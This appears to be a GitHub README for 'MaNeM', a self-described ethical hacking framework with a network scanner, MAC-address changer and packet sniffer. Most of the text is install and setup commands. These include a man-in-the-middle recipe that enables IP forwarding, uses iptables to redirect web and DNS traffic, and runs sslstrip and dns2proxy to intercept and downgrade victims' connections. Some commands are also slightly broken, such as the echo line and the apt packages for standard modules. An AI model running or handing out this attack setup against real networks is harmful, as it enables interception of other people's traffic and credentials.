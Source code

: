 # MaNeM
A Simple Ethical Hacking Framework which Comprises Network Scanner, Mac-address Changer and a Packet Sniffer

# Installation
$ git clone https://github.com/LingehLingeh/MaNeM.git

$ git clone https://github.com/LeonardoNve/dns2proxy.git

$ sudo apt install sslstrip

$ sudo apt install python3-subprocess

$ sudo apt install python3-re

$ sudo apt install python3-colorama

$ sudo apt install python3-scapy

$ sudo apt install python3-pyfiglet


# Launch MaNeM


$ python3 MaNeM


# What to do when using man in the middle tool

$ echo 1 /proc/sys/net/ipv4/ip_forward

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

$ iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53

$ sudo sslstrip

$ python dns2proxy

# Other

- If apt isntall python3-xyz doesn't work for you, use the normal pip or pip3 installer
- Run MaNeM framework in another window to use the packet listener when using the MITM tool
- How to use the rest of the tool are demonstrated as you engage with the MaNeM framework
- Refere to the screenshots provided in the folder MaNeM
- You can still use wireshack as a listener or any other listener..
